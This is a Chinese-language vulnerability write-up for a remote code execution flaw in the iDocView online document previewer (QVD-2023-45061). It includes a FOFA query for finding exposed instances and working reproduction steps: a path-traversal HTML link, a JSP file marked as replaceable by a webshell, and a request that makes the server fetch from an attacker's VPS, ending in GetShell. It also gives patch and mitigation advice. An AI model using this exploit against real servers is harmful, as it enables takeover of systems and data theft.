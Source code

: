 
# I Doc View在线文档预览系统RCE漏洞(QVD-2023-45061)

### 0x01 产品简介

  iDocView是一个在线文档解析应用，旨在提供便捷的[文件查看](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E6%9F%A5%E7%9C%8B&spm=1001.2101.3001.7020)和编辑服务。

### 0x02 漏洞概述 

**漏洞成因**

本次漏洞出现在在线文档解析应用中的远程页面缓存功能。具体问题在于该应用未能对[用户输入](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E8%BE%93%E5%85%A5&spm=1001.2101.3001.7020)的URL进行充分的安全验证，从而导致存在安全隐患。攻击者可通过构造特殊的URL，引诱应用下载恶意文件。

**利用特征**

攻击者利用该漏洞的关键在于使用具有远程页面缓存功能的接口，在参数中填写预先准备的包含恶意文件的URL。此类请求能够绕过正常的安全检查，使得服务器下载并处理恶意内容。漏洞的触发会返回特定的响应状态和内容类型条件，攻击者可通过自动化脚本进行检测和利用。

**漏洞影响**

该漏洞的利用可能导致服务器被远程控制、敏感数据泄露等等。漏洞的存在不仅威胁到该[应用服务器](https://so.csdn.net/so/search?q=%E5%BA%94%E7%94%A8%E6%9C%8D%E5%8A%A1%E5%99%A8&spm=1001.2101.3001.7020)的安全性，还可能成为更广泛网络安全事件的触发点。建议受影响的用户尽快采取必要的安全措施，以防范潜在的安全风险。

### 0x03 影响范围

iDocView < 13.10.1\_20231115

### 0x04 复现环境

FOFA：title=="在线文档预览 - I Doc View"

![1f8800a1887f4998bdd1ccb3ecd6587e.png](assets/1700812556-96830dba9faba6f93f61b367e3e3169f.png)

### 0x05 漏洞复现 

VPS上构造一个携带恶意link\[href\]的html文件，里面的link指向你的恶意文件

构造index.html

```cobol
<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>
</head>
<body>
  <link href="/..\..\..\docview\test.jsp">
</body>
</html>
```

构造恶意文件

```perl
vi '..\..\..\docview\test.jsp'


<%out.print("test");%>      #可以是马子
```

python开启一个http服务器，发送请求

```cobol
http://your-ip/html/2word?url=http://VPSip/index.html
```

![](assets/1700812556-650d044ae1818404906dae774325cf8b.png)

当两个请求都响应200时会下载一个word文件，表示利用成功 

![](assets/1700812556-6d47fef7ac24d3782567b50f1f0ebe0a.png) 验证

![](assets/1700812556-d5d6af0f6bb26045a2543a087e75818f.png)

GetShell

![](assets/1700812556-1dcd59165f97b71604303629dd94824a.png) ![](assets/1700812556-9e890f7534e25d10ad2ce39526707764.png) 

### 0x06 修复建议

目前官方已发布安全修复版本，受影响用户可以自行更新或者联系相关技术支持获取最新版本或补丁修复漏洞。

https://api.idocv.com

**缓解措施**

隔离该系统对外访问，仅允许受信任网络或者用户访问。

拦截受影响Api接口的请求访问。
